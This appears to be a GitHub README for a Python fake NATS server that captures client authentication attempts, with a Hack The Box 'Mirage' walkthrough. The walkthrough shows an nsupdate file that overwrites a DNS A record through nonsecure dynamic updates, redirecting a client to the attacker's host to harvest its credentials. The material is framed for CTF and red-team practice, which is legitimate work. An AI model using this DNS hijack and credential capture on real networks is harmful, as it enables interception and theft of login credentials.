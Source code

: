 # 🛰️ Fake NATS Server

`fake-nats.py` is a lightweight fake NATS server written in Python. It listens on the default NATS port and emulates a legitimate NATS server to capture client authentication attempts.

Perfect for **CTFs**, **red team simulations**, **reverse engineering**, or **honeypot setups**.

---

## ⚙️ Features

- Listens on `0.0.0.0:4222` (default NATS port)
- Sends a valid NATS `INFO` banner on connection
- Captures and prints incoming client payloads (e.g., credentials)

---

## 🛠️ Requirements

- Python 3.x

---

## 🚀 Usage

```bash
python3 fake-nats.py
```
---

## 🎯 Case Study: HTB Mirage – Credential Harvesting via Fake NATS

In the Hack The Box machine **"Mirage"**, a NATS server is accessible at `nats-svc.mirage.htb:4222`. The target service expects clients to authenticate using a username and password.

### 🎯 Objective

Harvest NATS client credentials by deploying a fake server and luring the legitimate client to connect to us instead of the real `dc01.mirage.htb`.

---

### 🧪 Attack Path

#### 1. **Exploit Dynamic DNS (nonsecure)**

The Domain Controller supports **Secure and Nonsecure** updates. We exploit this using a crafted input for `nsupdate` to overwrite the A record for `nats-svc.mirage.htb`.

Example update file:

```bash
# nsupdate-nats.txt
server <MIRAGE IP>
zone mirage.htb
update add nats-svc.mirage.htb 15 A <YOUR-IP>
send
```
then just use nsupdate:
```bash
nsupdate -v nsupdate-nats.txt
```

More details on: mirage-exploit.py
